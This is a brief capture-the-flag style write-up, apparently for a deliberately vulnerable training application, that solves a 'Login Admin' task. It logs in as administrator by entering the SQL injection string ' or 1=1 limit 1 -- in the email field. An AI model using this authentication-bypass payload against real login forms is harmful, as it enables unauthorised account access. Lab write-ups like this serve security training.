 # Login Admin

Log in with the administrator's user account.

# Tools used

- Browser
- swisskyrepo/PayloadsAllTheThings

# Solve

Login using email

```
' or 1=1 limit 1 --
```

and random password

![login page](../../../assets/admin-login-1.png)

![profile page after successful login](../../../assets/admin-login-2.png)